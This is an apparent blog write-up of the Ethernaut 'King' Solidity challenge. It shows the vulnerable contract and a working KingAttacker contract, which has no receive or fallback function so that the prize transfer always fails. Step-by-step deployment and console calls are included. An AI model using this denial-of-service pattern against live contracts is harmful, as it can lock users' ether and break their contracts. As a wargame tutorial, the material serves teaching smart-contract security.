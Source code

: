 ```yaml
---
layout: post
title: Ethernaut - 9. King
date:  2022-08-28
tags: ethernaut solidity
---
```


## Difficulty: 🌕🌕🌕🌑🌑
> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD <br /><br />
Such a fun game. Your goal is to break it.<br />
When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

## Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

## Writeup
There is the warning from Solidity document : 
> When Ether is sent directly to a contract (without a function call, i.e. sender uses send or transfer) but the receiving contract does not define a receive Ether function or a payable fallback function, an exception will be thrown, sending back the Ether (this was different before Solidity v0.4.0). If you want your contract to receive Ether, you have to implement a receive Ether function (using payable fallback functions for receiving Ether is not recommended, since the fallback is invoked and would not fail for interface confusions on the part of the sender).

If king is a contract that can not receive Ether, `king.transfer(msg.value)` fails every time it is executed. 

1. Get new instance.
2. Call the method
    ``` javascript

    await contract._king()
    // '0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5'
    // owner address is '0x43BA674B4fbb8B157b7441C2187bCdD2cdF84FD5' too.

    ```
2. Create a contract without `receive` and `fallback` . 
    ``` solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import './9_King.sol';

    contract KingAttacker {
        function attack(address payable _addr) public payable {
            King king = King(_addr);

            (bool sent, ) = address(king).call.value(msg.value)("");
            require(sent, "Failed to send value");
        }
    }
    ```
3. Compile & deploy.
4. Call `attack` method with the level instance address as the parameter `_addr` and value 1wei ( the same as state variable `prize`) .
5. Call the method
    ``` javascript

    await contract._king()
    // Your KingAttacker contract address

    ```
6. Submit instance ξ( ✿＞◡❛)

## Reference
- [Solidity by example - Sending Ether (transfer, send, call)](https://solidity-by-example.org/sending-ether/)
- [Solidity by example - Call](https://solidity-by-example.org/call/)
- [Receive Ether Function](https://docs.soliditylang.org/en/v0.8.16/contracts.html#receive-ether-function)